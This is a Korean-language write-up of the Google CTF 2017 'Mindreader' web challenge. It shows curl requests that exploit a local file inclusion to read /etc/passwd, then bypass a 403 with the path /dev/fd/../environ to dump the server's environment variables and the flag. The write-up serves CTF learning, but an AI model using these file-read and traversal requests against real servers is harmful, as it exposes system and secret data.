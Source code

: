 ```yaml
---
layout: post
title:  "[Google CTF 2017] Mindreader"
date:   2017-06-19
excerpt: "Mindreader"
tag:
- Google CTF
- Web
- Writeup
---
```


## Description

> Can you read my mind?<br>
> Challenge running at [https://mindreader.web.ctfcompetition.com/][1]

## Exploit

문제 페이지는 다음과 같다.

```html
<html>
<head>
</head>
<body>
    <p>Hello, what do you want to read?</p>
    <form method="GET">
        <input type="text" name="f">
        <input type="submit" value="Read">
    </form>
</body>
</html>
```
`https://mindreader.web.ctfcompetition.com/?f=` 와 같은 방법으로 파일 내부를 볼 수 있는 것 같다.<br>
단순 LFI 문제처럼 보인다.<br>
시험삼아 `/etc/passwd`를 호출해보았다.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
```

정상적으로 `/etc/passwd`가 호출됨을 알 수 있다.<br>
하지만 어느 폴더에 어떤 파일이 존재하는지 모르기에 `/proc/self/environ`을 열어보기로 했다.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/proc/self/environ"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```

권한이 없음을 확인할 수 있으므로, `/proc/self/environ`을 다른 방법으로 열어보자.

```bash
parallels@ubuntu:~$ ls -al /dev/fd
lrwxrwxrwx 1 root root 13 May 27 01:57 /dev/fd -> /proc/self/fd
parallels@ubuntu:~$ ls -al /dev/fd/../environ
-r-------- 1 parallels parallels 0 Jun 19 15:24 /dev/fd/../environ
```

위와 같은 방법으로 `environ`을 열 수 있다.<br>
`/dev/fd/../environ`을 서버에 요청해보자.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/dev/fd/../environ"

GAE_MEMORY_MB=614HOSTNAME=01a857a265fb
GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-dv60
PORT=8080
HOME=/root
PYTHONUNBUFFERED=1
GAE_SERVICE=mindreader-sss6w3uqjfrcntmn
PATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243
LANG=C.UTF-8
DEBIAN_FRONTEND=noninteractive
GCLOUD_PROJECT=ctf-web-kuqo48d
GOOGLE_CLOUD_PROJECT=ctf-web-kuqo48d
CHALLENGE_NAME=mindreader
VIRTUAL_ENV=/envPWD=/home/vmagent/app
GAE_VERSION=20170618t144344
FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
```

Flag를 얻을 수 있다.

Flag is `CTF{ee02d9243ed6dfcf83b8d520af8502e1}`

[1]: https://mindreader.web.ctfcompetition.com/
